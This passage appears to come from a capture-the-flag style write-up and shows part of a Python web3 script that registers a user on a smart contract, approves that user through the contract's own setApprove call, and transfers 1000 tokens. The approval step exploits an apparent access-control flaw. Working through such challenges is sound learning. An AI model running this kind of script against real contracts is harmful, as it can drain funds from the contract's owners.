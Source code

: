     contractInstance.functions.setPassword(password).transact()
    cusername = contractInstance.functions.getUsername().call()
    cpassword = contractInstance.functions.getPassword().call()
    print("[*] Added user: {}".format(cusername))
    print("[*] Password (MD5): {}".format(cpassword))

    # Phase III: Approve our user and confirm
    contractInstance.functions.setApprove(True).transact()
    approvalStatus = contractInstance.functions.getApprove().call()
    print("[*] Approval status: {}".format(approvalStatus))

    # Phase IV: Transfer needed funds of value 1000 and confirm
    contractInstance.functions.transfer(1000).transact()
    supply = contractInstance.functions.getSupply().call()
    balance = contractInstance.functions.getBalance().call()
    print("[*] Supply left: {}".format(supply))
    print("[*] Total balance: {}".format(balance))

if __name__ == "__main__":
    enter_club()
{% endhighlight %}

The result is seen in the following picture:

